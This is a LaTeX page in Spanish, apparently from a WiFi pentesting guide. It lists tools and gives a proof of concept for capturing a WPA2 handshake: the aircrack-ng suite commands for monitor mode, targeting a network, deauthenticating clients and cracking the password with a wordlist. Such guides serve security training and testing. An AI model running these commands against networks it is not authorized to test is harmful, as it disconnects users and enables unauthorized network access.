 \documentclass[a4paper, 11pt]{article}
\begin{document}
\subsubsection*{Herramientas}
\begin{itemize}
    \item \textbf{Airodump-ng}: Herramienta de captura de paquetes de datos de redes WiFi, que proporciona información detallada sobre las redes detectadas.
    \item  \textbf{Wireshark}: Herramienta de captura y análisis de tráfico de red, que permite examinar los paquetes en detalle.
    \item \textbf{Antena WiFi}: Adaptador inalámbrico compatible con modo monitor, preferiblemente que soporte tanto las frecuencias de 2,4 GHz como las de 5 GHz. Si además soporta modo AP, se pueden realizar ataques avanzados como "rogue AP".
\end{itemize}

\par\vspace{0.5cm}

\subsubsection*{Prueba de concepto}

Esta técnica utiliza \textbf{Airodump-ng} para capturar tráfico de redes WiFi y realizar ataques de fuerza bruta sobre los handshakes capturados. El procedimiento comienza configurando la antena en modo monitor, seguido del escaneo de redes inalámbricas disponibles para seleccionar la red objetivo. Se debe registrar el BSSID y el canal específico para proceder a capturar el handshake mediante técnicas de desautenticación, que desconectan momentáneamente a los clientes obligándolos a reconectarse y generando el handshake.
\par\vspace{0.5cm}

Este handshake posteriormente será explotado mediante fuerza bruta para evaluar la robustez de la contraseña.

\par\vspace{0.5cm}

\begin{lstlisting}[language=bash, style=terminalstyle, caption=Captura WPA2 con Aircrack-ng]
    # Configuración de la antena en modo monitor
$ sudo airmon-ng start wlan0
    # Escaneo de redes WiFi disponibles
$ sudo airodump-ng wlan0mon
    # Selección de la red objetivo y captura del handshake
$ sudo airodump-ng --bssid BSSID --channel CHANNEL -w capture wlan0mon
    # Desautenticación de clientes para capturar el handshake en paralelo con airodump-ng
$ sudo aireplay-ng -0 9 -a BSSID -c CLIENT_MAC wlan0mon
    # Análisis del handshake capturado
$ sudo aircrack-ng -w /path/to/wordlist.txt capture-01.cap
\end{lstlisting}
\end{document}
